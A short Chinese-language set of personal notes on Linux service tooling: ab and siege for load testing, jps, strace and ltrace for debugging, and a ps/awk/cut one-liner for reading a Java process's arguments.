== 服务程序

=== 压测

----
ab 工具（Apache 中自带）可以简单粗暴地检查 web 服务器的性能。对于更复杂的负载测试，使用 siege
----

=== java

Jps

=== 程序试错检查

----
了解 strace 和 ltrace。这俩工具在你的程序运行失败、挂起甚至崩溃，而你却不知道为什么或你想对性能有个总体的认识的时候是非常有用的。注意 profile 参数（-c）和附加到一个运行的进程参数 （-p）

strace：调试系统调用
strace 经常被认为是程序员的调试工具，但它的功用不仅仅用来调试。它可以截获和记录进程调用系统的情况。因而，它是一个实用的诊断、教学和调试工具。比如说，你可以使用strace来查出某个程序在启动时实际上使用哪个配置文件。

不过strace的确有一个缺陷。它在检查某个进程时，该进程的性能会一落千丈。因而，只有在我已经有极其充分的理由认为某个程序引起问题的情况下，才使用strace
----



== 常用命令

----
获取java_server_name的第18列值，等号分隔。尤其适合java -jar多个参数的场景
ps -ef|grep java_server_name|awk '{print $18}'|cut -d = -f 2

----